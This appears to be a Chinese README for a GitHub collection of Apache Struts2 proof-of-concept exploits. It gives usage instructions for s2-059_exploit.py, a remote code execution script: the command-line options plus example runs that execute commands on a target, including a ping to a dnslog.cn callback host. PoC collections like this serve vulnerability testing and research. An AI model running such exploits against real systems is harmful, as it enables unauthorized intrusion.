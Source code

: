 # 此仓库为strus2历史版本的poc集合
## s2-059_exploit.py 漏洞利用脚本
这个 Python 脚本旨在演示 Apache Struts S2-059 漏洞的利用技术。该漏洞允许在受影响的系统上进行远程代码执行。
python环境为pyhon2.7 
### 使用方法
1. 确保已经安装了 `requests` 库 。你可以使用 `pip` 来安装它：
`pip install requests`
2. 使用以下命令运行脚本：

```
python s2-059_exploit.py -u <URL> -c <命令>

- `-u` 或 `--url`：指定存在 Apache Struts 漏洞的目标 URL。
- `-c` 或 `--command`：提供要在目标系统上执行的命令。

示例：

python s2-059_exploit.py -u http://example.com/orders/3/edit -c "/usr/bin/touch /tmp/aa /tmp/bb"
python s2-059_exploit.py -u http://example.com/orders/3/edit -c "ping l9mgao.dnslog.cn"
```
